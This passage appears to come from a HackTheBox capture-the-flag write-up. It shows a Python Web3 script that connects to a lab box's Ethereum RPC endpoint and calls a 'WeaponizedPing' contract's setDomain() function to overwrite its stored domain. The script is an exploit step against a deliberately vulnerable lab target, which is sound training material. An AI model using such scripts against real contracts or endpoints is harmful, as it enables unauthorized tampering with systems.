 Our main objective is to gain the ability to modify and manipulate the domain value, and for that, we will develop a script in Python 3 to craft our request.

To interact with Ethereum, we will use the <a href="https://web3py.readthedocs.io/en/stable/">Web3</a> library (which can be installed using `pip`) and we will use <a href="https://www.sitepoint.com/compiling-smart-contracts-abi/">two essential elements</a>, besides contract’s address, from the configuration file provided:

* Ethereum bytecode for WeaponizedPing – The executable code of smart contract running on the stack-based Ethereum Virtual Machine (EVM);
* Application Binary Interface (ABI) – Which allows us to contextualize the contract and call its functions.

We will be using various functions from `Web3` to establish a connection with the RPC interface using `Web3.HTTPProvider`, load necessary values through `eth.defaultAccount` and finally the custom function `setDomain()` to override _“google.com”_ to _“hackthebox.eu”_:

{% highlight python %}
#!/usr/bin/python3
# -*- coding: utf-8 -*-
import json, subprocess
import netifaces as ni
from web3 import Web3

def run_exploit(ip):
	# Store Ethereum contract address
	caddress = open('address.txt', 'r').read()
	caddress = caddress.replace('\n', '')

	# Load Ethereum contract configuration
	with open('WeaponizedPing.json') as f:
		contractData = json.load(f)

	# Establish a connection with the Ethereum RPC interface
	w3 = Web3(Web3.HTTPProvider('http://10.10.10.142:9810'))
	w3.eth.defaultAccount = w3.eth.accounts[0]

	# Get Application Binary Interface (ABI) and Ethereum bytecode
	Url = w3.eth.contract(abi=contractData['abi'],      
                       bytecode=contractData['bytecode'])
	contractInstance = w3.eth.contract(address=caddress,  
                                      abi=contractData['abi'])

	# Calling the function of contract to set a new domain
	url = \
         contractInstance.functions.setDomain('hackthebox.eu').transact()

if __name__ == '__main__':
	try:
		ni.ifaddresses('tun0')
		ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
	except:
		print('[*] Failed to fetch local IP address')

	run_exploit(ip)
{% endhighlight %}
